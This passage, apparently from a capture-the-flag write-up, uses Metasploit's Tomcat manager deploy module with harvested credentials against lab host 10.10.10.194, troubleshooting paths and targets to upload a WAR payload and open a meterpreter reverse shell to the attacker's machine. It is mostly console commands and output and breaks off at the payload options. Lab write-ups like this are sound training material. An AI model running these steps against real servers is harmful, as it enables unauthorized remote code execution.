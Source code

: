 Again error, And its telling me to select target

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > set PATH /host-manager/text
PATH => /host-manager/text
msf5 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Attempting to automatically select a target...
[-] Failed: Error requesting /host-manager/text/serverinfo
[-] Exploit aborted due to failure: no-target: Unable to automatically select a target
[*] Exploit completed, but no session was created.
```

I set the target to 1.

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Java Universal
   2   Windows Universal
   3   Linux x86

msf5 exploit(multi/http/tomcat_mgr_deploy) > set target 1
target => 1
```

Now I get 403 error, I can't upload it.

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Using manually select target "Java Universal"
[*] Uploading 6275 bytes as zhpcU7dZuFQHdCHqffqv1N3Rb0w.war ...
[-] Exploit aborted due to failure: unknown: Upload failed on /host-manager/text/deploy?path=/zhpcU7dZuFQHdCHqffqv1N3Rb0w [403 ]
[*] Exploit completed, but no session was created.
```

Let's switched to `/manager`

All set now time to get shell. (Note : If you didn't get shell in first time, run that again)

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > options

Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name          Current Setting     Required  Description
   ----          ---------------     --------  -----------
   HttpPassword  $3cureP4s5w0rd123!  no        The password for the specified username
   HttpUsername  tomcat              no        The username to authenticate as
   PATH          /manager/text       yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.194        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         8080                yes       The target port (TCP)
   SSL           false               no        Negotiate SSL/TLS for outgoing connections
   VHOST                             no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):
```